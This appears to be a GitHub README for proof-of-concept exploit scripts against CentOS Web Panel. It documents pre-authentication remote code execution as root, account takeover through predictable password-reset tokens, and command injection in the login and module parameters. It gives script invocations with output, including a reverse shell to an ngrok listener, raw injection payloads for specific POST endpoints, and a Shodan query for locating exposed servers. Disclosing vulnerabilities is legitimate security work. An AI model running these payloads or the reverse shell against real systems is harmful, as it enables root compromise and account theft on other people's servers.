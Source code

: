 # CentOS-WebPanel
Proof of concepts scripts for vulnerabilities in CentOS Web Panel


## Pre Auth RCE

- WebPanel Versions <= 0.9.8.1120

It is possible to gain Remote Code Execution as root without any privlidges. This exploit chains a Local File Inclusion Vulnerability with a Command Injection vulnerability. 

### Example

```
python3 pre_auth_rce.py --target "127.0.0.1" --command "sleep 15"

```

You can optionally provide a Port Number and Local IP address to trigger a reverse shell

## Account Takeover

The Password Reset process uses predictable data to generate the reset token. If you know a users username and email address it is possible to reset any user account. 

This process does not work for the `root` account and will trigger a password reset email bieng sent to the target email address. 

### Example

```
python3 password_reset.py --target "<targetip>" --username "random" --email_address "my@email.com" --password "RandomPassword"
[+] Sending Reset Request to Target
  [-] Got Date 2022-01-31 14:47:34 from response
  [-] Generating Reset Token with username, email and reset token
  [*] Token: 681bb70c8452b33f9d7b6e319c20727b
[+] Confirming Reset Token
[+] Sending New Password with Reset Token
[*] Password has been set to "RandomPassword" for username "random"
```

## Internal API

The webpanel uses an internal API that is not protected from access. Any user account with the ability to host files via the FileManager can access this API. 

This API exposes many fucntions that include listing, modifying and creating accounts. 
An example `internal_api.php` file can be uploaded and accessed from a browser to demonstrate some of the exposed capabilities. 

## Run Command as root (User Login)

A command injection vulnerability exists in the user login flows. By injecting data in to the `userlang` parameter we can gain code execution as root. 
This requires a valid username and password but can be chained with the account takeover listed above. 

### Example

```
python3 user_auth_rce.py --target "<targetip>" --username "random" --password "RandomPassword" --command "sleep 5"
```

If `lhost` and `lport` are provided the exploit script will attempt to run a reverse shell that will connect as root to a netcat listener. 

```
python3 user_auth_rce.py --target "<targetip>" --username "random" --password "RandomPassword" --lhost "4.tcp.eu.ngrok.io" --lport 13921
```

## Run Command as root (User Modules)

- WebPanel Versions <= 0.9.8.1124

Using this collection of vulnearbilitues it is possible for a standard user to gain code exection as root by injecting commands in to POST paramaters for a range of modules. 

This exploit requires existing user credentials, this can be chained with the Account Takeover vulnerability listed above. 

### Example

```
python3 priv_esc_module_rce.py --target "<targetip>" --username "random" --password "RandomPassword" --command '`sleep 15`' --module 'dns_zone_editor' 
[+] Logging in to target with username random
  [-] Auth Successful
  [-] Selecting Module dns_zone_editor
  [-] Attempting to trigger RCE
[*] Command probably executed
```

### Modules

There are several vulnerable modules 

1. Adds a new DNS record with a command injection in the name field.

- [POST] `/index.php?module=mysql_manager&acc=optimizerdb`
- [DATA] `namereg=touch /tmp/hello&domain=test.example.com&cachereg=1&valuereg="aGVsbG8="&reg=TXT`

2. Optimize database

- [POST] `/index.php?module=mysql_manager&acc=`optimizerdb`
- [DATA] `db=test_hello$(whoami>/tmp/xxx)`

3. Disk usage

- `[POST] /index.php?module=disk_usage&acc=load_directory`
- `[DATA] folder_name='/home/<username>/$(id>/tmp/id)'`

4. SSL Certificate Info

- `[POST] /index.php?module=letsencrypt&acc=infomodal`
- `[DATA] domain=test.example.com$(whoami>/tmp/www)&type=info`

5. Error log viewer

- `[POST] index.php?module=error_log&acc=select`
- `[DATA] domain=test.example.com&tipe=access&numline=20&op=select&textsearch=howdy$(id>/tmp/howdy)`



### Detecting

Shodan


https://www.shodan.io/search?query=%22Server%3A+cwpsrv%22

`Set-Cookie: cwpsrv-`
`Server: cwpsrv`

SSL: |- Organization: 
CentOS Web Panel